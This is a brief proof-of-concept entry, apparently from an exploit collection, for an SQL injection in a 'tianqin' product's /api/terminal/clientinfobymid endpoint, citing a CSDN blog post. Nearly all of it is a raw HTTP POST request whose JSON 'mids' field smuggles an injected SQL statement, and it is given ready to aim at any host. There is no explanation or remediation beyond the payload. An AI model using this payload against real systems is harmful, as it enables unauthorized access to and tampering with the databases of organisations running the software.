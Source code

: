 # tianqin_clientinfobymid_sqli
from: https://blog.csdn.net/luochen2436/article/details/135295562
24/01/02
@2

```
POST /api/terminal/clientinfobymid HTTP/1.1
Host: you_ip
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15

{"mids":{"1 ,:mid_1);select 'aaa' -- aa":"","1":1}}

```
